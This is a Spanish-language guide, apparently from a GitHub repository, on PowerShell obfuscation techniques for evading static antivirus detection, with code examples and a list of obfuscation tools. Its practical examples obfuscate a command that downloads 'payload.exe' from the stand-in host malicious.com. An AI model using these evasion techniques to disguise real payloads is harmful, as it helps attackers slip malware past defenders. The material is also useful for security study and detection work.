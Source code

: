 # Técnicas de Ofuscación en PowerShell para Evasión de Detección Estática

---

## ¿Qué es la Ofuscación en PowerShell?

La ofuscación consiste en alterar un script para hacerlo más difícil de analizar por herramientas de seguridad como antivirus o sistemas de análisis estático, manteniendo su comportamiento original. Esto se logra transformando el código en formas menos reconocibles para firmas predefinidas o heurísticas básicas.

---

## Técnicas de Ofuscación

### 1. Concatenación de Cadenas
Divide comandos o cadenas en fragmentos que se unen en tiempo de ejecución, evitando que aparezcan palabras clave completas en el código.

- **Ejemplo:**
  ```powershell
  $cmd = 'G' + 'et-' + 'Process'
  & $cmd
  ```
- **Ventaja:** Dificulta la identificación de comandos como `Get-Process`.

### 2. Codificación de Caracteres
Codifica el script o partes de él, como en Base64, para ocultar su contenido legible.

- **Ejemplo:**
  ```powershell
  $encoded = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes('Get-Process'))
  powershell -EncodedCommand $encoded
  ```
- **Ventaja:** El script no es legible sin decodificación previa.

### 3. Uso de Variables Aleatorias
Reemplaza nombres de variables o funciones con cadenas generadas aleatoriamente.

- **Ejemplo:**
  ```powershell
  $x7k9p2 = 'http://malicious.com'
  Invoke-WebRequest -Uri $x7k9p2
  ```
- **Ventaja:** Evita coincidencias con nombres comunes en firmas de detección.

### 4. Inyección de Código Dinámico
Usa `Invoke-Expression` para ejecutar código generado en tiempo de ejecución, ocultando la lógica principal.

- **Ejemplo:**
  ```powershell
  $code = 'Get-' + 'Process'
  Invoke-Expression $code
  ```
- **Ventaja:** El código malicioso no está explícito en el script.

### 5. Uso de Alias
Sustituye comandos por sus alias para disfrazarlos.

- **Ejemplo:**
  ```powershell
  gps  # En lugar de Get-Process
  ```
- **Ventaja:** Los alias son menos obvios para herramientas de análisis.

### 6. Ofuscación de Sintaxis
Aprovecha la flexibilidad de PowerShell para escribir comandos de forma no convencional.

- **Ejemplo:**
  ```powershell
  Get-Process | ? { $_.Name -eq 'explorer' }
  ```
- **Ventaja:** Complica la lectura automática del script.

---

## Herramientas Útiles

- **Invoke-Obfuscation**: Automatiza la aplicación de múltiples técnicas de ofuscación.
  - **Uso Básico:**
    ```powershell
    Import-Module Invoke-Obfuscation.psd1
    Invoke-Obfuscation -ScriptPath 'script.ps1' -OutputPath 'obfuscated.ps1'
    ```
  - **Recurso:** [GitHub](https://github.com/danielbohannon/Invoke-Obfuscation)

- **PSDuck**: Ofrece capas adicionales de ofuscación.
  - **Uso Básico:**
    ```powershell
    Import-Module PSDuck.psm1
    PSDuck -ScriptPath 'script.ps1' -OutputPath 'obfuscated.ps1'
    ```
  - **Recurso:** [GitHub](https://github.com/PSDuck/PSDuck)

- **argfuscator**: Sitio para ofuscar comandos con diferentes personalizaciones
  - [Recurso](https://argfuscator.net/)

---

## Ejemplos Prácticos

### Concatenación de Cadenas
```powershell
# Original
Invoke-WebRequest -Uri 'http://malicious.com/payload.exe' -OutFile 'payload.exe'

# Ofuscado
$part1 = 'Invoke-Web'
$part2 = 'Request'
$uri = 'http://' + 'malicious' + '.com/payload.exe'
$out = 'pay' + 'load.exe'
& ($part1 + $part2) -Uri $uri -OutFile $out
```

### Codificación Base64
```powershell
# Original
Get-Process

# Ofuscado
$encoded = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes('Get-Process'))
powershell -EncodedCommand $encoded
```

### Variables Aleatorias
```powershell
# Original
$url = 'http://malicious.com'
Invoke-WebRequest -Uri $url

# Ofuscado
$z9m4q1 = 'http://malicious.com'
Invoke-WebRequest -Uri $z9m4q1
```

---

## Consideraciones Importantes

- **Limitaciones:** No protege contra análisis dinámico ni heurísticas avanzadas.
- **Riesgos:** La ofuscación excesiva puede generar errores o levantar sospechas.
- **Ética:** Úsalo solo en entornos autorizados y legales, como pruebas de seguridad.

---

## Recursos Adicionales

- [Artículos sobre Ofuscación](https://www.blackhat.com/docs/us-17/thursday/us-17-Bohannon-Revoke-Obfuscation-PowerShell-Obfuscation-Detection-And%20Evasion-Using-Science-wp.pdf)
